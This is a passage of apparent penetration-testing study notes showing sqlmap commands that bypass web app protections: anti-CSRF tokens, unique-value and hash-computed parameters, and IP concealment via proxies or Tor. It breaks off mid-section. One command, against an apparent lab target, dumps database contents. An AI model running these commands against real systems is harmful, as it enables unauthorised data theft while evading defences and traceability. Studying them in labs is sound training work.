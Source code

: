 * Bypassing web app protections:

  * Anti-CSRF (Cross-Site Request Forgery) token bypass:

    ```shell
    # use --csrf-token switch and specify the token parameter name
    sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

    # in case of non-standard name, we can intercept request to check and get name
    sqlmap -u 'http://94.237.63.93:33675/case8.php' --data='id=1&t0ken=R7JwJghlq90SG77wwhQrz116YqfCtHaCnGe9kgBw2e8' --csrf-token="t0ken" --batch --dump
    ```
  
  * Unique value bypass:
  
    ```shell
    # use --randomize for parameters which only require unique values
    sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch
    # value of 'rp' will be random
    ```
  
  * Calculated parameter bypass:

    ```shell
    # for cases where parameter value is calculated based on other values
    sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch
    # here 'h' is MD5 hash of 'id'
    ```
  
  * IP address concealing:

    ```shell
    # we can use --proxy, or --proxy-file if we have list of proxies
    # if Tor is setup, we can use --tor as well with SOCKS4 proxy
